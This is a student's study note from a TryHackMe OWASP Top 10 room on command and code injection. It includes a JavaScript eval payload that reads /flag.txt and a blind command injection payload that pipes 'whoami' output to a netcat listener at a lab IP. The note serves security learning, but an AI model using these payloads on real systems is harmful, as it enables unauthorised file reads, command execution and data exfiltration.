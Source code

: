 
2024-06-01 15:27

Source: #tryhackme #owasp2021 #web 

Tags: [[owasp]]  [[SQL injection]]

#### Injection attacks were ranked No. 3 on OWASP Top 10 2021

Command injection -  occurs when server-side code (like PHP) in a web application makes a call to a function that interacts with the server's console directly.
- take advantage of a bash feature called "inline commands" to abuse
- Bash allows you to run commands within commands
To execute inline commands, you only need to enclose them in the following format `$(your_command_here)`
### Injecting JS code to get flag.txt 

```js
eval(`(function() { return ${ formula } ;}())`)
```
what should i input in place of formula to get flag.txt? -
```js
require('fs').readFileSync('/flag.txt').toString();
```

> [!tip]
> Try injecting code in every field that can be manipulated 

### Blind Command Injection via file upload 

The webapp allows you to upload a file and lets you select a parameter while uploading 
the burp request shows the contents of the file and the parameter selected 
we try injecting code in the txt file we upload but it doesn't execute 
We then try injecting in the parameter field.

below is the payload used in the parameter field, Because this is blind command injection we can't see the o/p so we grep nc with the payload
```sh
bytebuster ; whoami | nc 10.17.117.61 4444; 
```

`;` are real important 
open a [[netcat]] listener on another terminal 

### References
[TryHackMe | OWASP Top 10 - 2021](https://tryhackme.com/r/room/owasptop102021)